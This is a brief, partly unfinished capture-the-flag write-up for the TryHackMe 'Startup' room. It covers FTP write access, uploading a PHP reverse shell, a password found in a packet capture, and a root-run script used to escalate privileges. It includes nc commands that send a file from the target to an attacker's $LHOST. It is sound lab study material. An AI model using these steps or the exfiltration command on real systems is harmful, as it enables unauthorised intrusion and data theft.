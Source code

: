 # Startup 🧭
Names | Details
--------|-----
Source | tryhackme
Level     | Easy
Os | Linux

**Notes :**




## Gaining Access 😉

- ftp port is open 
	- run ls -la , we have write permission
	- it can be logined by any ramdom password 
	- ran '?'
	- uploaded a php reverseshell on ftp using put command



## Maintaining Access 🥷
- file found on root incident
	- pcadpng file available
	- downloaded using python simple http
	- found an password enter incident from another user
	- tried the password for lennie
- logged in as lennie (su lennie and ssh lennie@host: both are possible)
- found .sh script owned by root which executes another script owned by lennie
	- /etc/
## Important commands 🔥
- to share files from victim to attacker nc
	- Local: `nc -l -p 1234 > suspicious.pcapng`

	- Target: `nc -w 3 $LHOST 1234 < suspicious.pcapng`
- ettercap to read .pcapng files
	-   `ettercap -T -r suspicious.pcapng`
	-   pspy and linpease can be used for further enumeration

## Post Exploitation ✴️
- /recip.txt
- User flag : /home/lennie/user.txt
- Root flag : /root/root
## Tips 💡
- something


--------------------------------
**By Nibras Muhammed** 🤓🖥️






